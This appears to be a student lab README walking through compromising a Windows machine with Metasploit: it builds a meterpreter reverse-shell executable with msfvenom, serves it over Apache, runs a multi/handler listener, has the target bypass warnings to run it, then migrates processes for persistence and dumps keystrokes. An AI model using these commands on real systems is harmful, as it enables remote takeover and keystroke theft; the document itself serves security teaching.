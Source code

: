 # Compromising-windows-using-Metasploit

Compromising windows using Metasploit

# Metasploit

Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/662e1113-220c-44d0-aa9f-1c83e254eb5e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/a894c9ec-aec4-42e4-ae58-931e69c77190)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/2d40f577-88bf-4295-95e6-27bdbbcb9d06)

Start apache server sudo systemctl apache2 start

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/ae2a2d3d-d48c-40b0-896e-c8512f617487)

Check the status of apache2
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/474fad86-07e8-4bb9-84cd-1c87aca83d96)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/031a8ed0-0b12-4635-93cc-516c4d8bfe08)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/b3dc4d12-c7fb-4601-ac8f-b61afd501987)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/41162f9e-b75b-4956-b03e-c83fe535ead8)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/bfc7b80d-4ede-442c-b223-1fef21e57cc1)

The Metasploit shell is running inside the 
"fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/3461a1c8-8dd9-406d-95e7-e225c73d9df5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/5f4557ea-be68-4a63-a578-4b14379dda22)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
